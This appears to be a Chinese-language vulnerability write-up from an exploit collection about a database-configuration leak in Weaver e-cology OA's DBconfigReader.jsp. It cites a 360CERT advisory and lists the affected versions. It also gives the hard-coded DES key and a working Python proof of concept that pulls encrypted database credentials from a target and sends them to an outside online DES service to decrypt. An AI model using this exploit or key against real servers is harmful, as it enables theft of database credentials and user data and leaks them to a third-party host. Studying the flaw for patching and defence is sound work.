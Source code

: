 # 泛微OA DBconfigReader.jsp 数据库配置信息泄漏漏洞

## 漏洞描述

2019年10月24日，360CERT监测到友商发布了泛微e-cology OA数据库配置信息泄漏漏洞预警，漏洞等级中。

攻击者可通过存在漏洞的页面直接获取到数据库配置信息。如果攻击者可直接访问数据库，则可直接获取用户数据，甚至可以直接控制数据库服务器。

360CERT判断漏洞等级为中，危害面/影响面低。建议使用泛微e-cology OA的用户及时安装最新补丁，以免遭受黑客攻击。

## 漏洞影响

```
目前已知为8.100.0531,不排除其他版本，包括不限于EC7.0、EC8.0、EC9.0版
```

## 漏洞复现

根据源码可以得到DES密钥为 1z2x3c4v5b6n（也有1z2x3c4v的,可以按此规律来爆破）

![image-20220209103714654](./images/202202091037951.png)



可以看到会将当前连接数据库的用户名密码，url，logintype等信息进行des加密，并最终进行返回，可以直接通过des解密获取泄露信息。



## 漏洞POC

[Github链接](https://github.com/ianxtianxt/ecologyExp.jar)

python代码



```python
import base64
import requests
import ast

def req(url):
	headers =  {
        'Content-Type':'application/x-www-form-urlencoded',
        'User-Agent':'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36',
        'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
    }

	r1 = requests.get(url,headers=headers).content
	s = r1.replace('\r\n','')
	res1 = base64.b64encode(s)
	
	postdata = {
		'data':res1,
		'type':'des',
		'arg':'m=ecb_pad=zero_p=1z2x3c4v_o=0_s=gb2312_t=1'
	}
	u = 'http://tool.chacuo.net/cryptdes'
	r2 = requests.post(u,data=postdata,headers=headers).content	
	res2 = ast.literal_eval(r2)
	
	return res2['data']

url = 'http://xxx.xxx.xxx.xxx:8888//mobile/DBconfigReader.jsp'
print req(url)
```



## 参考文章



[[更新\]泛微e-cology OA数据库配置信息泄漏漏洞预警](https://mp.weixin.qq.com/s/zTEUan_BtDDzuHzmd9pxYg)
